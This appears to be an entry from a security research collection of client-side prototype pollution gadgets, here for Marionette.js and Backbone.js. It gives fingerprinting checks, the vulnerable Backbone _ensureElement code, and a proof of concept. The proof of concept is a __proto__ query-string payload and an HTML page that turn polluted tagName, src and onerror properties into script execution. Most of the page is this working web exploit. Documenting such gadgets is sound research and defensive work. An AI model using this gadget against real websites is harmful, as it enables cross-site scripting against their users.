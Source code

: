 ## Marionette.js / Backbone.js

URL: https://marionettejs.com/  
URL: https://backbonejs.org/

### JS Fingerprint
```
return (typeof Marionette !== 'undefined')
return (typeof Backbone !== 'undefined' && typeof Backbone.VERSION !== 'undefined')
```

### Vulnerable code fragment
https://github.com/jashkenas/backbone/blob/153dc41616a1f2663e4a86b705fefd412ecb4a7a/backbone.js#L1435-L1436
```js
    _ensureElement: function() {
      if (!this.el) {
        var attrs = _.extend({}, _.result(this, 'attributes'));
        if (this.id) attrs.id = _.result(this, 'id');
        if (this.className) attrs['class'] = _.result(this, 'className');
        this.setElement(this._createElement(_.result(this, 'tagName')));
        this._setAttributes(attrs);
```

### PoC

```
?__proto__[tagName]=img&__proto__[src][]=x:&__proto__[onerror][]=alert(1)
```

```html
<script src="https://cdnjs.cloudflare.com/ajax/libs/jquery/3.5.1/jquery.min.js"></script>
<script src="https://cdnjs.cloudflare.com/ajax/libs/underscore.js/1.11.0/underscore-min.js"></script>
<script src="https://cdnjs.cloudflare.com/ajax/libs/backbone.js/1.4.0/backbone-min.js"></script>
<script src="https://cdnjs.cloudflare.com/ajax/libs/backbone.marionette/4.1.2/backbone.marionette.min.js"></script>
<script>
  Object.prototype.tagName = 'img'
  Object.prototype.src = ['x:x']
  Object.prototype.onerror = ['alert(1)']
</script>
<script>
(function() {
  var View = Mn.View.extend({template: '#template-layout'});
  var App = Mn.Application.extend({region: '#app', onStart: function() {this.showView(new View());}});
  var app = new App();
  app.start();
})();
</script>
<div id="template-layout" type="x-template/underscore">xxx</div>
```